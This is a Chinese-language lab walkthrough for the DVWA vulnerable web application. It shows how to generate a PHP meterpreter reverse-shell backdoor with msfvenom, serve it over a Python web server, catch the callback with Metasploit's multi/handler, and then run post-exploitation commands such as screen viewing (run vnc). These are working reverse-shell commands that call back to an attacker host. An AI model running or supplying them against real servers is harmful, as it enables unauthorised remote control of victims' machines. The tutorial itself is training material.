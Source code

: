 # 一、 环境准备

### 1 DVWA靶场

   DVWA下载：https://codeload.github.com/ethicalhack3r/DVWA/zip/master

注意：配置DVWA环境 准备PHP7.0以上，和 Nginx环境 
1 配置数据库密码  配置 config/config.inc.php.dist 文件（注意后门的 .dist要通过重命名删掉）
2 使用浏览器访问 http://XxIP/setup.php
3 红字问题解决
4 缺少key  直接替换下面2句  或者 访问https://www.google.com/recaptcha/admin/create
$_DVWA[ 'recaptcha_public_key' ] = '6LdJJlUUAAAAAH1Q6cTpZRQ2Ah8VpyzhnffD0mBb';
$_DVWA[ 'recaptcha_private_key' ] = '6LdJJlUUAAAAAM2a3HrgzLczqdYp4g05EqDs-W4K';
5 allow_url_include: Disabled  提示没开启
找到php目录里的php.ini allow_url_include  将后面参数OFF 改成On 修改完成重启Nginx生效

### 2 Metasploit任意平台

  可以是Windows版，可以是kali自带版

# 二、Metasploit配置监控及攻击载荷

### 1 配置监控-使用handler模块

###    use exploit/multi/handler

### ![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641417576000/a2529fe010ac46108a0413b8153c08b0.png)  2 配置攻击载荷设置payload

###    第一步设置payload

###      set payload php/meterpreter/reverse_tcp

###    第二步设置 lhost 和 lport  

###    set lhost xxxip ；   

###   set lport  xxx端口；

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641417576000/ad204b7bb1bc4c709f4d6948d4ef219a.png) 

### 3 生成php后门执行攻击获得meterpreter



新建一个终端在终端内输入

msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.3.23 lport=4456 R>shell.php

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641417576000/1fa4967afb3f487f84926004d4ddc591.png)

3.2 传播- 使用Python简单的web服务

python -m SimpleHTTPServer 80

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641417576000/6604546c76d7471e9f332e81daf6c570.png)

将shell.php

3.3 执行攻击获得meterpreter

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641417576000/1003035b32a343488a282bddec48a62b.png)

run 或者exploit

获取到meterpreter 我们就可以做渗透操作了

比如 观看屏幕 可以在meterpreter里输入 

run vnc

查看当前账号可以在meterpreter里输入

getuid